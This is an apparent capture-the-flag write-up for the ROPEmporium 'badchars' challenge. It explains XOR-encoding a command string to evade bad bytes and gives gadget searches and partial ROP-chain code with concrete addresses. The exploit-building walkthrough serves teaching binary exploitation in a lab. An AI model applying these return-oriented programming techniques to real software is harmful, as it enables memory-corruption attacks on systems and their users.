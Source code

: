 # badchars


## 32bit


## 64bit

Like always check the buffer we know it is 40bytes but its always good to be safe.

Running it we see some pretty bad news
```
badchars are: b i c / <space> f n s
```
Which eliminates `/bin` and other goodies from our input and any opcodes that happen to have the same bytes as the above chars

Converting them to hex so later we can give the bad bytes to `ropper` so it knows to avoid them
```
0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73
```

### Avoiding Bad Chars


Luckily ROPEmporium was nice and left a hint in the symbol table of the ELF

![hint](imgs/64bit/usefulGadget.png)

If they weren't that nice we could have also found that gadget and other useful gadgets by using `ropper` which is covered in **Finding Gadgets** section below

So now that we know we have a nice XOR gadget to be used we need to XOR the badchars in `/bin/cat flag.txt` with a key in this instance a single letter because of the useful gadget:
```
xor byte ptr [r15], r14b; ret;
```
This XORs a single byte in r15 with the low/first byte of r14. The XOR key is just be a single char

Using [xor.py](xor.py) a quick and dirty script made to help find a key that didn't produce any badchars

The key doesn't have to be the same for all of them. I just did for convience.
And only XOR the bad chars and not the whole string or later the ROPchain will have too many operations

```
"/bin/cat flag.txt" XOR "D" = "k&-*k'atd"lag.txt"
```

Now that we can disguise our favorite string we can move on to creating the payload

### Creating the Payload

The payload is gonna have 3 parts
1) loading the string to memory
2) modifying the string in memory
3) loading the string into system call

#### Finding Gadgets

`ropper` is a super handy gadget finder that gef uses to locate ROP gadgets. It's general usage is as follows
- A 'gadget' in ROP terms is a string of asm operations followed by a ret call so it can be chained or returned into the next part of the ropchain
- `--search` uses a regex to find your query in the asm's opcodes ex: `--search "pop rdi"` will return gadgets that contain `pop rdi`
- `-b` is used to specify bad bytes, which is critical for this challenge

```
ropper --search $QUERY -b 6269632f20666e73 #-b is bad bytes and the number is all the bad bytes above just lumped together
```

#### Loading the String

Searching by `mov qword` we get mov whats in r12 into the memory address stored in r13

```
ropper --search "mov qword" -b 6269632f20666e73

0x0000000000400b34: mov qword ptr [r13], r12; ret;
```

Now we need to load data into r12 and r13

Searching for `pop r12` we get:

```
ropper --search "pop r12" -b 6269632f20666e73

0x0000000000400b3b: pop r12; pop r13; ret;
```

Using these two gadgets we are able to take our string off the stack and into memory. But we can't use a lot of chars so whats the point!?

Even if we can write to memory it'll be missing chars so it'll just be garbage. But luckily we disguised our favorite string in the previous section
- The important thing is that it doesn't have any of the previously stated bad chars

We also need to find somewhere to place the string into memory. We can find this by looking at the ELF's sections. Using `rabin2` from radare2
```
rabin2 -S badchars
```
![data section](imgs/64bit/data.png)

```
data_start = 0x601080 # pop_r12_r13 = p64(0x400b3b)
mov_r13_r12 = p64(0x400b34)
load_str_1 = pop_r12_r13 + bin_cat + p64(data_start) + mov_r13_r12
load_str_2 = pop_r12_r13 + flag_txt + p64(data_start+0x8) + mov_r13_r12
load_str_3 = pop_r12_r13 + last_bit + p64(data_start+0x10) + mov_r13_r12
load_str = load_str_1 + load_str_2 + load_str_3
```
I'm using .bss(0x601080) instead of .data(0x601070) because the third char for the string would have landed at 0x601073 which ends in a bad char 0x73 aka 's'

You could off set it by one and have the start be 0x601071 so then the third char is 0x601074 instead of 0x601073 it really doesn't matter.

But throught this whole challenge be aware of the bad chars and if something isn't working but it definately should then it's probably bad chars.

Test and get this part working before moving on.

![loaded string](imgs/64bit/loadedString.png)

#### Modifing the String

Now that the string is loaded into memory we can modify it back to it's original state

We'll use that `usefulGadget` we found from before
```
xor byte ptr [r15], r14b; ret;
```

But we need to find a way to load data into r15 and r14
```
ropper --search "pop r14" -b 6269632f20666e73

0x0000000000400b40: pop r14; pop r15; ret;
```

Now we just need to make a ropchain with the previously used key to xor the string back to `/bin/cat flag.txt`

CODE:
```
key = "D".ljust(8,"\x00").encode() #left justfied so it becomes 8 bytes in length "D\x00\x00\x00\x00\x00\x00\x00"
pop_r14_r15 = p64(0x400b40)
xor_r15_r14b = p64(0x400b30)

# 'D' ^ '/'
xor_str_0 = pop_r14_r15 + key + p64(data_start) + xor_r15_r14b
# 'D' ^ 'b'
xor_str_1 = pop_r14_r15 + key + p64(data_start+0x1) + xor_r15_r14b
# 'D' ^ 'i'
xor_str_2 = pop_r14_r15 + key + p64(data_start+0x2) + xor_r15_r14b
# 'D' ^ 'n'
xor_str_3 = pop_r14_r15 + key + p64(data_start+0x3) + xor_r15_r14b
# 'D' ^ '/'
xor_str_4 = pop_r14_r15 + key + p64(data_start+0x4) + xor_r15_r14b
# 'D' ^ 'c'
xor_str_5 = pop_r14_r15 + key + p64(data_start+0x5) + xor_r15_r14b
xor_cat = xor_str_0 + xor_str_1 + xor_str_2 + xor_str_3 + xor_str_4 + xor_str_5

# 'D' ^ ' '
xor_str_8 = pop_r14_r15 + key + p64(data_start+0x8) + xor_r15_r14b
# 'D' ^ 'f'
xor_str_9 = pop_r14_r15 + key + p64(data_start+0x9) + xor_r15_r14b
xor_flag = xor_str_8 + xor_str_9

xor_str = xor_cat + xor_flag
```

Once again run and test this stage of the exploit before moving on. The less to debug is always better.

![modified string](imgs/64bit/modifiedString.png)
